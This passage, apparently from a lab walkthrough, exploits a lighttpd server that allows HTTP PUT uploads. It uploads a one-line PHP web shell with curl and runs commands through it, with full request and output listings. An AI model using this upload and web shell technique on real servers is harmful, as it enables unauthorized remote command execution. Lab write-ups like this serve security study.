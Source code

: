 ... and there we have it, our test.txt file:

```
Index of /test/
Name	Last Modified	Size	Type
Parent Directory/	 	-  	Directory
test.txt	2016-May-31 04:17:00	0.1K	text/plain
lighttpd/1.4.28
```

Now let's try to upload a simple php file and see if it works.

```
# curl -v -X PUT -d "<?php phpinfo();?>" http://172.16.16.141/test/test.php
* Hostname was NOT found in DNS cache
*   Trying 172.16.16.141...
* Connected to 172.16.16.141 (172.16.16.141) port 80 (#0)
> PUT /test/test.php HTTP/1.1
> User-Agent: curl/7.35.0
> Host: 172.16.16.141
> Accept: */*
> Content-Length: 18
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 18 out of 18 bytes
< HTTP/1.1 201 Created
< Content-Length: 0
< Date: Tue, 31 May 2016 11:18:31 GMT
* Server lighttpd/1.4.28 is not blacklisted
< Server: lighttpd/1.4.28
< 
* Connection #0 to host 172.16.16.141 left intact
```

Again, it worked.

```
Index of /test/
Name	Last Modified	Size	Type
Parent Directory/	 	-  	Directory
test.php	2016-May-31 04:18:31	0.1K	application/x-httpd-php
test.txt	2016-May-31 04:17:00	0.1K	text/plain
lighttpd/1.4.28
```

So now it's time to send a PHP shell file. Using curl i've sent a file named exec.php with the following content inside: 

```
# curl -X PUT -d '<?php system($_GET["cmd"]);' http://172.16.16.141/test/cmd.php
```

Trying to run the file, it worked as expected, so now we can send commands to the remote machine by issuing, for example: 

```
# curl "http://172.16.16.141/test/cmd.php?cmd=ls%20-lha"
total 20K
drwxr-xr-x 2 www-data www-data 4.0K May 31 04:34 .
drwxr-xr-x 3 root     root     4.0K Apr 25 23:38 ..
-rw-r--r-- 1 www-data www-data   31 May 31 04:34 cmd.php
-rw-r--r-- 1 www-data www-data   18 May 31 04:18 test.php
-rw-r--r-- 1 www-data www-data   13 May 31 04:17 test.txt
```
